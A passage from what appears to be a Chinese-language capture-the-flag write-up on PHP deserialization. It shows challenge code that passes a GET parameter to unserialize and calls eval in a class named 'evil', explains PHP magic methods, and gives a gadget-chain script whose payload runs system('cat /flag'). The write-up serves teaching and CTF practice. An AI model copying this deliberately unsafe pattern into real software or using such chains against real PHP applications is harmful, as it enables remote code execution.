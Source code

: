 ```php
{
    public $middle;

    function __call($name, $arguments)
    {
        echo $this->middle->hs;
    }
}

class evil
{
    public $end;

    function __construct($end)
    {
        $this->end = $end;
    }

    function __get($Attribute)
    {
        eval($this->end);
    }
}

if(isset($_GET['serialize'])) {
    unserialize($_GET['serialize']);
} else {
    highlight_file(__FILE__);
}
```

先来了解一些魔术方法：

| __construct()    | 具有构造函数的类会在每次创建新对象时先调用此方法             |
| ---------------- | ------------------------------------------------------------ |
| **__destruct()** | 某个对象的所有引用都被删除或者当对象被显式销毁时执行         |
| **__get()**      | 读取不可访问<font color='red'>属性的值</font>,`__get`会被自动调用 |
| **__call()**     | 在对象中调用一个不可访问<font color='red'>方法</font>时,`__call`会自动被调用 |
| **__wakeup()**   | `unserialize()` 会检查是否存在一个 `__wakeup()`方法。如果存在，则会先调用 `__wakeup` 方法，预先准备对象需要的资源。 |

分析上述代码，得知最终入口为evil对象调用的eval函数，从而构造传播链

> entrance-->springboard-->evil

可以自行给springboard类增添构造函数

```php
class springboard
{
    public $middle;
	function __construct($x)
	{
		$this->middle = $x;
	}
    function __call($name, $arguments)
    {
        echo $this->middle->hs;
    }
}
$e = new evil("system('cat /flag');");
$s = new springboard($e);
$a = new entrance($s);
echo serialize($a);
```